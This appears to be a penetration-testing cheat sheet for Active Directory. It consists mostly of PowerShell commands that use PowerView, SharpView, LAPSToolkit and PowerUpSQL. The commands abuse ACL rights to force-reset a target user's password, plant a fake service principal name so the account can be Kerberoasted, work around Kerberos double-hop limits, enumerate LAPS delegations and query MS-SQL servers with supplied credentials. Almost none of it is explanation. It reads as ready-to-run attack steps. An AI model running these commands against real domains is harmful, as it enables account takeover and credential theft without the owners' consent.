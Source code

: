 ```powershell
PS> $TestUserSecPassword = ConvertTo-SecureString 'TestUserPassword' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('HOGE\TestUser', $TestUserSecPassword)
PS> $TargetUserSecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS>Set-DomainUserPassword -Identity TargetUser -AccountPassword $TargetUserSecPassword -Credential $Cred -Verbose
# Create Fake SPN
PS> $TestUserSecPassword = ConvertTo-SecureString 'TestUserPassword' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('HOGE\TestUser', $TestUserSecPassword)
PS> Set-DomainObject -Credential $Cred -Identity TargetUser -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
## clear
PS> Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
# Workaround Kerberos "Double Hop" Problem
## PSCredential Object
Remote Accessed PS> import-module .\PowerView.ps1
Remote Accessed PS> get-domainuser -spn
### error
Remote Accessed PS> klist
Remote Accessed PS> $SecPassword = ConvertTo-SecureString 'TestPassword' -AsPlainText -Force
Remote Accessed PS> $Cred = New-Object System.Management.Automation.PSCredential('HOGE\TestUser', $SecPassword)
Remote Accessed PS> get-domainuser -spn -credential $Cred | select samaccountname
### ok
Remote Accessed PS> get-domainuser -spn | select
###  without specifying the -credential flag, error
```

# SharpView
```powershell
PS> .\SharpView.exe Get-DomainUser -Help
PS> .\SharpView.exe Get-DomainUser -Identity TestUser
```

# LAPSToolkit
https://github.com/leoloobeek/LAPSToolkit
```powershell
# Generic - Enumerating Security Controls - on powerhsell console - Powershell
PS> Find-LAPSDelegatedGroups
PS> Find-AdmPwdExtendedRights
PS> Get-LAPSComputers
```

# targetedKerberoast
https://github.com/ShutdownRepo/targetedKerberoast

# PowerUpSQL
tag: shell. MS-SQL
https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet
```powershell
PS> Import-Module .\PowerUpSQL.ps1
PS> Get-SQLInstanceDomain
PS> Get-SQLQuery -Verbose -Instance "XXX.XXX.XXX.XXX,1433" -username "hoge\TestUser" -password "TetsPassword" -query 'Select @@version'
```
